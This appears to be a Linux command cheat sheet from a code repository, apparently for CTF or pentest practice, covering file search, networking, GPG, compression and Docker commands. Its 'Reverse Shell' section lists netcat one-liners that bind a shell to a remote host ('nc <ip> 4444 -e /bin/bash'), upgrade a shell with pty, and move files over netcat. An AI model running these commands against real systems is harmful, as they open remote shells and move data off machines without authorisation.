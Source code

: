 ## Search and Navigation
- `pwd` : Display the current working directory.
- `lsblk` : List mounted disks and partitions.
- `locate <file_name>` : Search for a file in the system.
- `which <command_name>` : Show the path of a command's executable.
- `history` : Display the history of executed commands.
- `find / -name "*...*" 2>/dev/null`: Search a file in the system 

## Networking & Services
- `telnet <host> 80` : Test connection to a service.
- `finger @<ip>` : List the users on a remote machine.
- `finger fabiano@<ip>` : Get specific information about a user.
- `wget -r -np -nH --cut-dirs=0 http://192.168.1.100:8000/` : Download all files/folders from a directory hosted on a Python web server.
- `ss -tulpn`: Display all the open port.

## System
- `kill {pid}`: Kill a process.
- `export VAR=value` : Create or modify an environment variable and make it available to child processes.

## Crypto & Certificates
- `openssl x509 -in key.pem -text -noout` : Analyze a X.509 certificate.
- `gpg --homedir /your/path/to/gpg_key -d file.gpg` : Decrypt a GPG-encrypted file (requires the corresponding private key or passphrase).  
- `gpg --encrypt -r <recipient> file.txt` : Encrypt a file for a specific recipient using their public key.

## Databases--homedir
- `sqlite3 filedb.sqlite` : Start an SQLite session on a `.sqlite` file.

## File
- `file <file_name>` : Display the file type.
- `ln -s /path/to/target /path/to/symlink`: Creat a symlink.

## Reverse Shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : Upgrade a reverse shell to a fully interactive shell.
- `nc -lvnp 4444`: Open port 4444
- `nc <ip> 4444 > file.txt`: Connect to a port on another machine and save the received data into file.txt 
- `nc -lvnp 4444 < file.txt`: Listen on port 4444 and send the contents of file.txt to any connected client.
- `nc <ip> 4444 -e /bin/bash`: Connect to the reverse shell with nc

## Compression & Decompression
- `tar -cf archive.tar folder/` : Create a TAR archive without compression.  
- `tar -xf archive.tar` : Extract a TAR archive without compression.  
- `tar -czf archive.tar.gz folder/` : Create a TAR archive compressed with Gzip.  
- `tar -xzf archive.tar.gz` : Extract a TAR archive compressed with Gzip.  
- `tar -cjf archive.tar.bz2 folder/` : Create a TAR archive compressed with Bzip2.  
- `tar -xjf archive.tar.bz2` : Extract a TAR archive compressed with Bzip2.  
- `tar -cJf archive.tar.xz folder/` : Create a TAR archive compressed with XZ.  
- `tar -xJf archive.tar.xz` : Extract a TAR archive compressed with XZ.  
- `gzip file.txt` : Compress a single file with Gzip, replacing the original file.  
- `gunzip file.txt.gz` : Decompress a Gzip file.  
- `bzip2 file.txt` : Compress a single file with Bzip2, replacing the original file.  
- `bunzip2 file.txt.bz2` : Decompress a Bzip2 file.  
- `xz file.txt` : Compress a single file with XZ, replacing the original file.  
- `unxz file.txt.xz` : Decompress an XZ file.  
- `zip -r archive.zip folder/` : Create a ZIP archive containing a folder and its contents. 
- `unzip archive.zip` : Extract the contents of a ZIP archive.  

## Docker
- `docker ps` : List all running containers.
- `docker ps -a` : List all containers (running and stopped).
- `docker images` : List all available Docker images.
- `docker build -t <image_name> .` : Build an image from a Dockerfile in the current directory.
- `docker run -it --rm <image_name>` : Run a container interactively and remove it after exit.
- `docker run -d --name <container_name> <image_name>` : Run a container in detached mode with a specific name.
- `docker exec -it <container_name> /bin/bash` : Open an interactive shell inside a running container.
- `docker stop <container_name>` : Stop a running container.
- `docker start <container_name>` : Start a stopped container.
- `docker restart <container_name>` : Restart a container.
- `docker rm <container_name>` : Remove a stopped container.
- `docker rmi <image_name>` : Remove a Docker image.
- `docker logs <container_name>` : Show the logs of a container.
- `docker inspect <container_name>` : Show detailed information about a container.
- `docker cp <container_name>:/path/in/container /path/on/host` : Copy a file from a container to the host.
- `docker cp /path/on/host <container_name>:/path/in/container` : Copy a file from the host to a container.
- `docker-compose up -d` : Start all services defined in a `docker-compose.yml` in detached mode.
- `docker-compose down` : Stop and remove containers, networks, and volumes created by `docker-compose up`.
- `docker system prune -a` : Remove all stopped containers, unused images, and unused networks.



